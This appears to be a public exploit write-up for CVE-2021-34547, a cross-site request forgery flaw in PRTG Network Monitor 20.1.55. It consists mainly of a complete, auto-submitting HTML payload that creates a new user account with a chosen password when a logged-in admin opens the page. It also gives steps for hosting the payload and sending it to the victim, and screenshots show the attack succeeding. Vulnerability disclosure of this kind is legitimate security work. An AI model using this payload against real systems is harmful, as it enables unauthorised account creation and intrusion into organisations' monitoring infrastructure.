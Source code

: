 # PRTG Network Monitoor v20.1.55 - CSRF (CVE-2021-34547)
Cross Site Request Forgery (CSRF) on PRTG Network Monitor version 20.1.55 

Exploit Title: Cross Site Request Forgery (CSRF)  
Date: 10/06/2021  
Exploit Author: Likhith CV  
Vendor Homepage: https://www.paessler.com/  
Software Link: https://www.paessler.com/prtg  
Test on Version: 20.1.55.1775+  
Affected Versions: not tested on other versions  
CVE assigned: CVE-2021-34547


## Observation
It was observed that anti csrf tokens are not implemented throughout PRTG Network Monitor v 20.1.55 Application

Severity: High

## Steps To reproduce:

To exploit this vulnerability an attacker can simply create a HTML form that would submit a user account creation request and share the link with the victim.On clicking the link , the user account creation request will be triggered in background and it shall create a user account from his valid session.

Any action can be performed on behalf of logged in user but for demonstration user account creation on behalf of admin is shown as example


1. Create a CSRF payload as following
```javascript
<html>
  <body onload="onLoadSubmit()">
  <script>history.pushState('', '', '/')</script>
    <form action="https://[domain]/editsettings" name="cu2" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="login&#95;" value="User&#95;test2" />			<!--username-->
      <input type="hidden" name="name&#95;" value="User&#95;test2" />			<!--name-->
      <input type="hidden" name="email&#95;" value="cvlikhith&#64;gmail&#46;com" />		<!--email-->
      <input type="hidden" name="email" value="" />
      <input type="hidden" name="passwordradio" value="1" />
      <input type="hidden" name="password1" value="Hello123" />				<!--password-->
      <input type="hidden" name="password&#95;" value="" />					<!--confirm_password-->
      <input type="hidden" name="password2" value="Hello123" />
      <input type="hidden" name="passhash" value="" />
      <input type="hidden" name="lastackedsensordeprecationgrowl" value="" />
      <input type="hidden" name="usertype&#95;" value="0" />
      <input type="hidden" name="allowack&#95;" value="0" />
      <input type="hidden" name="allowpwchange&#95;" value="0" />
      <input type="hidden" name="primarygroup&#95;" value="201&#124;PRTG&#32;Users&#32;Group&#124;&#124;&#124;0&#124;" />	<!--group-->
      <input type="hidden" name="primarygroup" value="201" />
      <input type="hidden" name="active&#95;" value="1" />
      <input type="hidden" name="autorefreshtype&#95;" value="1" />
      <input type="hidden" name="autorefreshinterval&#95;" value="30" />
      <input type="hidden" name="playsound&#95;" value="0" />
      <input type="hidden" name="homepage&#95;" value="" />
      <input type="hidden" name="timezone&#95;" value="Dateline&#32;Standard&#32;Time&#124;&#40;UTC&#45;12&#58;00&#41;&#32;International&#32;Date&#32;Line&#32;West" />
      <input type="hidden" name="dateformat&#95;" value="0" />
      <input type="hidden" name="theme&#95;" value="0" />
      <input type="hidden" name="ticketmail&#95;" value="1" />
      <input type="hidden" name="objecttype" value="user" />
      <input type="hidden" name="id" value="new" />
      <input type="hidden" name="targeturl" value="&#47;systemsetup&#46;htm&#63;tabid&#61;5" />
      <input type="submit" value="Submit request" />
    </form>
	<script language="javascript">
function onLoadSubmit() {
	document.cu2.submit();
}
</script>
  </body>
</html>

```
2. Send this payload to admin of the PRTG Portal
3. once Admin opens your payload new user account will be created   

### CSRF Payload
![payload](https://user-images.githubusercontent.com/36541248/121513665-2420c100-c9fc-11eb-819f-c83a94cba544.png)

### Hosting CSRF.html on attacker server
![python_server](https://user-images.githubusercontent.com/36541248/121513670-284cde80-c9fc-11eb-8102-315033fb317f.png)

### User accounts before CSRF attack
![0](https://user-images.githubusercontent.com/36541248/121513531-005d7b00-c9fc-11eb-8346-c04737d7869f.png)

### Once the Admin opens the html, CSRF Payload is triggered and new user account "user_test2" is created
![9](https://user-images.githubusercontent.com/36541248/121513559-07848900-c9fc-11eb-8ae9-4ea660d2a35a.png)

### Testing Credentials
![testing_creds](https://user-images.githubusercontent.com/36541248/121513678-2aaf3880-c9fc-11eb-9d3b-82edacd809a7.png)

### Logged In 
![logged_in](https://user-images.githubusercontent.com/36541248/121513653-2125d080-c9fc-11eb-9285-fde0942c83e1.png)







